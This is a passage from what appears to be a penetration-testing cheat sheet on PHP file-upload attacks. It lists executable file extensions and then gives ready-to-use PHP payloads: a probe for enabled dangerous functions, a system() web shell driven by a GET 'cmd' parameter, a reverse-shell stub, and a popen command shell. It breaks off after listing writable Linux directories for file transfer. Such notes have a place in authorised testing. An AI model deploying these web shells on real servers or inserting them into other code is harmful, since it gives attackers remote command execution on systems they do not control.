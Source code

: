 - Coldfusion: `.cfm, .cfml, .cfc, .dbm`

- Node.js: `.js, .json, .node`
## Payloads
- Harmless payload
	```php
	<?php echo "RCE!"; ?>
	```
- Identify allowed functions
  ```php
  <?php
$dangerous_functions = array('pcntl_alarm','pcntl_fork','pcntl_waitpid','pcntl_wait','pcntl_wifexited','pcntl_wifstopped','pcntl_wifsignaled','pcntl_wifcontinued','pcntl_wexitstatus','pcntl_wtermsig','pcntl_wstopsig','pcntl_signal','pcntl_signal_get_handler','pcntl_signal_dispatch','pcntl_get_last_error','pcntl_strerror','pcntl_sigprocmask','pcntl_sigwaitinfo','pcntl_sigtimedwait','pcntl_exec','pcntl_getpriority','pcntl_setpriority','pcntl_async_signals','error_log','system','exec','shell_exec','popen','proc_open','passthru','link','symlink','syslog','ld','mail');
foreach ($dangerous_functions as $f) {
  if (function_exists($f)) {
    echo $f . " is enabled<br/>\n";
  }
}
?>
  ```
- `system` web shell
	```php
	<?php system($_GET["cmd"]); ?>
	```
	Request: `?cmd=id`
- `system` Reverse shell
	```php
	<?php system("REV_SHELL"); ?>
	```
- `popopen` shell
  ```php
  <?php echo fread(popen($_REQUEST['cmd'], "r"), 1000000); ?>
  ```
# Linux

## File Transfer

### Writable Directories

- `/var/tmp`
- `/tmp`
- `/dev/shm`

### HTTP
